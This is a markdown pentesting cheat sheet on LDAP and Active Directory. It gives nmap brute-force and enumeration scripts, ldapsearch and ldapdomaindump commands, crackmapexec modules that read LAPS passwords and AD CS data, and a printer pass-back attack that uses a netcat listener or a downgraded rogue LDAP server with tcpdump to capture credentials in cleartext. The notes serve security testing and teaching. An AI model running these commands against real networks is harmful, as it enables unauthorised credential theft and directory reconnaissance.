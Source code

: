 ```yaml
---
title: LDAP (Lightweight Directory Access Protocol) Pentesting
description: LDAP is a standard protocol designed to maintain and access "directory services" within a network. Default ports are 389 (LDAP), 636 (LDAPS), 3268 (LDAP connection to Global Catalog), 3269 (LDAP connection to Global Catalog over SSL).
tags:
    - Active Directory
    - Windows
refs:
date: 2023-02-08
draft: false
---
```


## Enumeration

```sh
nmap --script ldap-brute --script-args ldap.base='"cn=users,dc=cqure,dc=net"' -p 389 <target-ip>
nmap --script ldap-search -p 389 <target-ip>
nmap --script ldap-* -p 389 <target-ip>
nmap --script "ldap* and not brute" -p 389 <target-ip>
```

<br />

## Search LDAP

Belows are defined in LDAP.

- **cn - Common Name**
- **dc - Domain Component**
- **ou - Organizational Unit**

```sh
# -b: base dn for search
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com"
ldapsearch -x -H ldap://10.0.0.1:636 -b "dc=example,dc=com"

# As administrator
# -D: bind DN
# -w: bind password
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "cn=admin,dc=example,dc=com" -w password
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "cn=admin,dc=example,dc=com" -W

# Search sAMAccountName
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "workspace\\ldap" -w 'password' "(objectclass=*)" "sAMAccountName"
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "workspace\\ldap" -w 'password' "(objectclass=*)" "sAMAccountName" | grep sAMAccountName

# Get information
ldapsearch -x -H ldap://10.0.0.1 -b "cn=sample,cn=Users,dc=example,dc=com" -w 'password' "(objectclass=*)" -D "example\\name"
```

<br />

## Dump Active Directory Information

If you have the credential, you can get the Active Directory information via LDAP.

```sh
# --no-html: Disable html output
# --no-grep: Disable greppable output
# -o: Output dir
ldapdomaindump -u 'DOMAIN\username' -p password <target-ip> --no-html --no-grep -o dumped
```

<br />

## Connect

### AD CS (Active Directory Certificate Services)

```sh
cd crackmapexec
# -M: module
poetry run crackmapexec ldap <target-ip> -d 'domain' -u 'username' -p 'password' -M adcs
```

### LAPS (Local Administrator Password Solution)

```sh
cd crackmapexec
# -M: module
poetry run crackmapexec ldap <target-ip> -u 'username' -p 'password' --kdcHost <target-ip> -M laps
```

<br />

## Pass-Back Attack

Attack against the network devices such as printers.  
For example, access http://printer.sub.example.com/settings.aspx

Open a listener for connecting back to your local machine.

```sh
nc -lvp 389
```

In your browser, test LDAP settings where you input username and password.

### Host Rogue LDAP Server

If we cannot connect back in local machine by netcat, we need to create a rogue LDAP server.  
Install the dependencies at first.

```sh
sudo apt update
sudo apt install -y slapd ldap-utils
sudo systemctl enable slapd
``` 

Configure your own rogue LDAP server by executing the following command.

```sh
sudo dpkg-reconfigure -p low slapd

# ---------------------------------------------------

# in configuration dialog

1. Omit OpenLDAP server configuration: No
2. DNS domain name: <target-domain>
3. Organization name: <target-domain>
4. Administrator password: <arbitrary-password>
5. Database backend to use: MDB
6. Do you want the database to be removed when slapd is purged?: No
7. Move old database?: Yes
```

We need to make your rogue LDAP server to be vulnerable by downgrading the supported authentication mechanism.  
Create the config file named "config.ldif".

```txt
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

Now we can use the config file to patch the LDAP server.

```sh
# -Y: SASL mechanism
# -H: URI
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./config.ldif
sudo service slapd restart
```

We can verify that the rogue LDAP server’s configuration has been applied:

```sh
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```

For capturing the credentials, run the following command.

```sh
sudo tcpdump -SX -i <target-interface-like-eth0> tcp port 389
```

In browser, test the printer settings and capture the credentials via tcpdump.

